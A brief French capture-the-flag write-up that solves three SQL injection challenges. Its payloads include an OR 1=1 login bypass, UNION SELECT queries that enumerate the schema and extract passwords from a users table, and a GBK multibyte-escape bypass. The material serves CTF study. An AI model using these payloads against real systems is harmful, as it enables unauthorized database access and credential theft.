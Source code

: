 1/3

On tente des payloads assez classiques pour faire en sorte que la requête fasse: 'OR 1=1#

2/3

Le payload de la première partie ne fonctionne plus, il nous faut donc trouver la table:
'UNION SELECT table_name,null,null,null FROM information_schema.tables -- -
'UNION SELECT column_name,null,null,null FROM information_schema.columns WHERE table_name="users" -- -
'UNION SELECT password,null,null,null FROM users -- -

3/3

Il s'agit d'une faille sql assez rare en CTF, une GBK :
1¿' OR TRUE#